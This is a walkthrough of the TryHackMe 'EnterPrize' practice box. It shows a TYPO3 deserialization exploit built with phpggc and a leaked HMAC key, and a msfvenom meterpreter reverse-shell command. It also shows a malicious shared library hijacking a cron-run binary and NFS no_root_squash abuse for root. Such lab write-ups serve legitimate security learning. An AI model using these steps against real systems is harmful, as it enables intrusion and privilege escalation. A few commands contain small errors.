This box is rated hard difficulty on THM; it's absolutely brutal so prepare yourself.

_Can you hack your way in?_

## Scanning & Enumeration
First things first, I run an Nmap scan against the given IP to find any and all running services on the host; I do the same for UDP but find nothing.


```
$ sudo nmap -p22,80,443 -sCV enterprize.thm -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-20 22:10 CST
Nmap scan report for enterprize.thm (10.65.131.125)
Host is up (0.046s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 67:c0:57:34:91:94:be:da:4c:fd:92:f2:09:9d:36:8b (RSA)
|   256 13:ed:d6:6f:ea:b4:5b:87:46:91:6b:cc:58:4d:75:11 (ECDSA)
|_  256 25:51:84:fd:ef:61:72:c6:9d:fa:56:5f:14:a1:6f:90 (ED25519)
80/tcp  open   http    Apache httpd
|_http-server-header: Apache
|_http-title: Blank Page
443/tcp closed https
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
```

There are just three ports available:
- SSH on port 22
- An Apache web server on port 80
- HTTPS on port 443 (this is closed)

I start enumerating directories/subdomains in the background to save on time and have a look around the webpage.



There really isn't much to see here, no cookies, nothing on robots.txt, and I can't get a hit on any common endpoints for Apache. Dozens of directory busts later, I find a single page that returns a 200 OK.

```
$ gobuster dir -u http://enterprize.thm/ -w /opt/SecLists/Discovery/Web-Content/quickhits.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://enterprize.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/quickhits.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Show length:             false
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/composer.json        (Status: 200)

Progress: 2565 / 2565 (100.00%)
===============================================================
Finished
===============================================================
```

This composer.json file tells us what dependencies the site requires in order to run properly. Looks like leftover files from the typo3 CMS, however navigating to the usual paths pertaining to it returns nothing. There's close to literally nothing for us to enumerate here which makes me think this is a domain that's simply out of use. 

```
{
    "name": "superhero1/enterprize",
    "description": "THM room EnterPrize",
    "type": "project",
    "require": {
        "typo3/cms-core": "^9.5",
        "guzzlehttp/guzzle": "~6.3.3",
        "guzzlehttp/psr7": "~1.4.2",
        "typo3/cms-install": "^9.5",
 "typo3/cms-backend": "^9.5",
        "typo3/cms-core": "^9.5",
        "typo3/cms-extbase": "^9.5",
        "typo3/cms-extensionmanager": "^9.5",
        "typo3/cms-frontend": "^9.5",
        "typo3/cms-install": "^9.5",
 "typo3/cms-introduction": "^4.0"
    },
    "license": "GPL",
    "minimum-stability": "stable"
}
```

I expand my search while digging for subdomains, eventually finding a valid one at maintest.enterprize.thm.



After adding that to my /etc/hosts file, I head over there. It looks like the default landing page for installed applications running this CMS. Let's hit Google to find exploits on version 9.5.

There are a few dangerous ones here:
- Critical RCE via deserialization (CVE-2019–12747), but this requires access to a backend/service account.
- Arbitrary Code Execution via a flaw in the Form Designer backend module, which allows for PHP code injection.
- General XSS vulnerabilities due to how certain modules handled user input.

I don't actually find anything that works right now, however more enumeration shows a fileadmin folder which contains a place for user uploads.



There's also a login panel at /typo3 where we can access the backend, but default credentials don't work and we have yet to find credentials, let alone a username. I do some more digging on vulnerabilities pertaining to this version and end up finding an automated Python scanner for typo3 applications. Here's a [link](https://github.com/whoot/Typo3Scan).



## Exploitation
Gobuster shows a few interesting directories as well. The /typo3conf one contains a LocalConfiguration.old file which conveniently has a line with the old password and a SYS encryption key.



I find [this article](https://www.synacktiv.com/en/publications/typo3-leak-to-remote-code-execution) which has the steps for RCE almost to a tee. 

The entire idea behind this attack chain is to use the encryption key to upload a base64 encoded payload to the /fileadmin/_temp/ folder via a contact form and have our object deserialize to create a backdoor on the server.

We'll also need the [phpggc](https://github.com/ambionics/phpggc/blob/master/phpggc) tool to use a gadget for creating the backdoor. Clone the repo and use the following commands to fabricate the RCE payload.

First we use one of phpggc's gadgets to create the encoded payload that will upload our PHP system command to /fileadmin/_temp.

```
php phpggc -b - fast-destruct Guzzle/FW1 /var/www/html/fileadmin/_temp_/cbev.php cbev.php
```

Next we need to generate a valid HMAC to append to our payload for it in order for it be recognized. Some quick research shows that the site most likely uses SHA1 as the algorithm. Thankfully, PHP has a built in function that let's us grab this quite easily. I use the following script against the payload I just created.

```
<?php
$sig = hash_hmac('sha1', $argv[1], "71<encryptionKey_edited>0b");
print($sig);
?>
```



_Be sure to supply the key found in LocalConfiguration.old here_

Now navigate to Content Examples -> Form Elements -> Forms on the site and capture a request from the contact form. Here we replace the first body (the one with __state in it) with our payload + the HMAC and send it to the server.



The server will throw an error, but our code will already be deserialized 

Note: You will need to use `PHP 7.2X` installed or be using it when exploiting this attack chain as that is what the server is using. I spent over an hour trying to debug the upload process and found that the `7.2X` was the most up-to-date version when this box was released making it a bit easier.

Running id to check our account shows we're in the group 'blocked'. This probably means we can't run a whole lot of commands as we are.

```
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(blocked) uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(blocked)
```

## Initial Foothold
I go down the list of reverse shells on [revshells](https://www.revshells.com/) and find that awk works. Time to upgrade it into a proper shell before looking at privesc.

I use msfvenom to create a reverse shell in ELF format, upload it to the system, set up a listener, and connect.

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=LOCAL_IP LPORT=PORT -f elf -o shelly.elf
```

Taking a look around shows we'll need to pivot to John's account to get his flag and then to root after. I start with the usual routes of privilege escalation and don't find much.

Displaying the contents of his home directory shows a file named myapp. 

```
$ ls -lh /home/john/develop/myapp
-r-xr-xr-x 1 john john 17K Jan  2  2021 /home/john/develop/myapp
```

Using ltrace on it shows that a function named do_ping gets called.

```
$ ltrace ./myapp
puts("Welcome to my pinging applicatio"...)      = 35
do_ping(0x7fa6aa1e8760, 0x5629ee9dd008, 0x7fa6aa1e98c0, 0x5629ee9dd02a) = 9
Welcome to my pinging application!
Test...

+++ exited (status 0) +++
```

Let's dig into how this works exactly. Checking what libraries are loaded points toward `libc.so.6` and `libcustom.so`.

```
$ ldd /home/john/develop/myapp
        linux-vdso.so.1 (0x00007fff2b16b000)
        libcustom.so => /usr/lib/libcustom.so (0x00007eff32e00000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007eff327f8000)
        /lib64/ld-linux-x86-64.so.2 (0x00007eff32be9000)
```

Next, I look at ld.so.conf to see how the libraries are loaded and find a link between `x86_64-libc.conf` and a file in john's home directory `/develop/test.conf`.

```
$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf
```

```
$ ls -lh /etc/ld.so.conf.d/
total 8.0K
-rw-r--r-- 1 root root  44 Jan 27  2016 libc.conf
lrwxrwxrwx 1 root root  28 Jan  3  2021 x86_64-libc.conf -> /home/john/develop/test.conf
-rw-r--r-- 1 root root 100 Apr 16  2018 x86_64-linux-gnu.conf
```

I'm thinking that something must be running myapp in the background as this seems to be the only attack vector. I snoop on all running processes by uploading pspy64 to /tmp and find that a cronjob must be executing myapp and saving it to result.txt. Judging by the UID, this is John running it.



## Privilege Escalation
So, as we know John is executing this and since myapp loads libcustom.so, let's upload a malicious library that launches a reverse shell instead of whatever is intended. Let's code this in C and compile it before sending it over to the target.

Make sure to also label the function do_ping as that's what is being called.

Libcustom.c contents:

```
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void do_ping(){
    system("/var/www/html/public/fileadmin/_temp_/johnny.elf", NULL, NULL);
}
```

Compiling library:

```
$ gcc -shared -o libcustom.so -fPIC libcustom.c
```

Upload the malicious library to /fileadmin/_temp_/ and move it to /develop/ in Johns home dir. Also make the ldconfig file.

```
$ mv /var/www/html/public/fileadmin/_temp_/libcustom.so /home/john/develop/
$ echo '/home/john/develop' > /home/john/develop/test.conf
```

All that's left to do is wait for the cronjob to execute and enjoy our shell as John. Let's grab the first flag while we're here, I think it's definitely well earned.



We're on the home stretch to root now. I was stuck in an awful shell so I quickly copied my local SSH pub key to `/home/john/.ssh/authorized_keys` for a better experience.

Once again, I go through the motions of checking Sudo privs, unique SUID bits set, and any out of ordinary files/binaries in hopes to escalate privileges. Displaying the services on the host showed that port 2049 was listening, which is the default for NFS.



I use showmount to see what is available.

```
john@enterprize:~$ showmount -e 127.0.0.1
Export list for 127.0.0.1:
/var/nfs localhost
```

This was quite strange as having network file system only running locally is a bit redundant. Since I already upload my pub key, I use SSH to port forward this so I had access to it on my attacking machine.

```
$ ssh -i id_rsa.pub john@enterprize.thm -N -L 2049:127.0.0.1:2049
```

Reading /etc/exports on the system will show how NFS is configured. 

```
john@enterprize:~$ grep -v 'localhost' /etc/exports
/var/nfs        localhost(insecure,rw,sync,no_root_squash,no_subtree_check)
```

Looks like no_root_squash is enabled. The problem with NFS is that there is no real authentication when using it, meaning if we impersonate root and mount the file system, then we'll get full control.

At first, I attempted to just change /bin/sh to have the SUID bit set and execute that from my John shell, but that didn't seem to work. A bit of trial and error showed that copying /bin/sh from remote to local and then moving it into the mount and using chmod on it works fine.

```
$ scp -i id_rsa.pub john@enterprize.thm:/bin/sh ~
$ sudo mount -t nfs 127.0.0.1:/var/nfs share/
$ sudo mv sh share/sh
$ sudo chmod +s share/sh
```

Finally, execute `./sh` in /var/nfs on your shell as John to get root privs and grab the final flag.



In all honesty, this box whooped my a** over a couple of days and there's no way I could've done the deserialization attack on my own so huge thanks to [M3n0sD0n4ld](https://m3n0sd0n4ld.github.io/patoHackventuras/EnterPrize) and [noraj](https://blog.raw.pm/en/TryHackMe-EnterPrize-write-up/) for their great writeups regarding that part. Again, the differing PHP versions made this box a bit harder than it was originally but I learned a ton. 

Thanks to _superhero1_ for an incredible box. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
